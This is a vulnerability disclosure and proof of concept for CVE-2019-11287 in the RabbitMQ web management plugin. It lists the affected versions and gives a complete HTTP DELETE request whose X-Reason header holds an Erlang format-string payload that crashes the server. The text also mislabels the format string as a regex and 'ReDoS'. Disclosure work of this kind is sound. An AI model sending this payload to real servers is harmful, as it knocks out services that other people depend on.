

# CVE-2019-11287: RabbitMQ Web Management Plugin DoS via Heap Overflow 

Pivotal RabbitMQ, versions 3.7.x prior to 3.7.21 and 3.8.x prior to 3.8.1, and RabbitMQ for Pivotal Platform, 1.16.x versions prior to 1.16.7 and 1.17.x versions prior to 1.17.4, contain a web management plugin that is vulnerable to a denial of service attack.
<br/>
The "X-Reason" HTTP Header can be leveraged to insert a malicious Erlang format string that will expand and consume the heap, resulting in the server crashing.

<table>
	<tr>
		<th>Affected Products</th>
		<th>Affected Versions</th>
	</tr>
	<tr>
		<td>Pivotal RabbitMQ</td>
		<td>3.7.x prior to 3.7.21 and 3.8.x prior to 3.8.1</td>
	</tr>
	<tr>
		<td>RabbitMQ for Pivotal Platform</td>
		<td>1.16.x prior to 1.16.7 and 1.17.x prior to 1.17.4</td>
	</tr>
</table>

### Vendor Disclosure:

The vendor's disclosure and mitigation of this vulnerability can be found [here](https://pivotal.io/security/cve-2019-11287). 


### Requirements:

For successful exploitation of the vulnerability, the attacker will require:
- Credentials for the Web Management Plugin (Ex. guest:guest)
- An MQTT connection which can be "Force Closed"


### Proof Of Concept:

#### Step 1 - AMQP connection
Initiate or wait for a AMQP connection to be established to the server


#### Step 2 - ReDoS
Click on the connection and insert the malicious payload in the "Reason" field, afterwards click the "Force Close" button.
<br/>
In this case the payload is "~9000000000n", a regex which will try in the backend to result in generating a string containing 9000000000 new line characters.


#### Request

```
DELETE /api/connections/127.0.0.1%3A51115%20-%3E%20127.0.0.1%3A5672 HTTP/1.1
Host: 127.0.0.1:15672
content-type: application/json
authorization: Basic Z***TRUNCATED***=
X-Reason: ~9000000000n
Content-Length: 68
Cookie: m=2258:Z***TRUNCATED***=

{"name":"127.0.0.1:51115 -> 127.0.0.1:5672","reason":"~9000000000n"}
```

<strong>Note:</strong> Only the "X-Reason" HTTP Header is interpreted in an unsafe way by the server. The "reason" variable in the JSON payload does not affect the outcome in any way.

#### Result

The result of this payload is that the RabbitMQ server on 5672 and RabbitMQ Web Management Plugin on 15672 crash. The report of the crash can be found in "/var/log/rabbitmq/erl_crash.dump" and shows the misallocation of the heap.



<strong>Note:</strong> The "top" tool can be used to see the spike in CPU and Memory consumption of the RabbitMQ "beam.smp" command.


